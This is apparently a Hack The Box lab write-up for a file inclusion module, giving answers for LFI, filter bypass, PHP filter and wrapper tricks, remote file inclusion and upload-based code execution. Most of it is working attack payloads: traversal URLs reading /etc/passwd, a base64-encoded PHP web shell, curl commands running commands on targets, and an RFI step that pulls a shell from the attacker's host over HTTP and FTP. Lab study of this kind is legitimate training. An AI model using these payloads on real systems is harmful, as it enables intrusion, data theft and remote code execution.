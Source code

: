 # Local File Inclusion (LFI)

#### Questions

+ 0  Using the file inclusion find the name of a user on the system that starts with "b".

```url
http://94.237.60.55:49722/index.php?language=../../../../etc/passwd
```

+ 1  Submit the contents of the flag.txt file located in the /usr/share/flags directory.

```url
http://94.237.60.55:49722/index.php?language=../../../../usr/share/flags/flag.txt
```

# Basic Bypasses

#### Questions
+ 1  The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt

```url
http://94.237.51.163:39103/index.php?language=languages/..././..././..././..././etc/passwd
```


# PHP Filters

#### Questions
+ 1  Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer

FUZZING file:

```zsh
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://94.237.60.55:53128/FUZZ.php
```

```
configure               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 257ms]
```

Try to get content of `configure.php`

![](images/1.png)

We need to use php base64 filter

```url
http://94.237.60.55:53128/index.php?language=php://filter/read=convert.base64-encode/resource=configure
```

![](images/2.png)

# PHP Wrappers

#### Questions
+ 1  Try to gain RCE using one of the PHP wrappers and read the flag at /

Get config file

```zsh
curl "http://94.237.60.55:41765/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

![](images/3.png)

Prepare payload

```zsh
echo '<?php system($_GET["cmd"]); ?>' | base64 -w 0
```

Url encoded

```
PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D
```

Test payload

```zsh
curl 'http://94.237.60.55:41765/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

Get flag

```zsh
curl 'http://94.237.60.55:41765/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cat%20/37809e2f8952f06139011994726d9ef1.txt' | grep 'HTB{'
```


# Remote File Inclusion (RFI)
#### Questions
+ 1  Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in /

Set up payload

```zsh
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Test RFI

```zsh
curl http://10.129.29.114/index.php?language=http://10.10.14.210/
```

Confirm this has RFI

![](images/4.png)

Maybe our payload filtered

![](images/5.png)

Try ftp

```zsh
sudo python3 -m pyftpdlib -u test -P test -p 21
```

```url
http://10.129.29.114/index.php?language=ftp://test:test@10.10.14.210/shell.php&cmd=cat%20/exercise/flag.txt
```

# LFI and File Uploads

#### Questions
+ 1  Use any of the techniques covered in this section to gain RCE and read the flag at /

```zsh
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

![](images/6.png)

Get flag

```url
http://94.237.61.242:39984/index.php?language=./profile_images/shell.gif&cmd=cat%20/2f40d853e2d4768d87da1c81772bae0a.txt
```

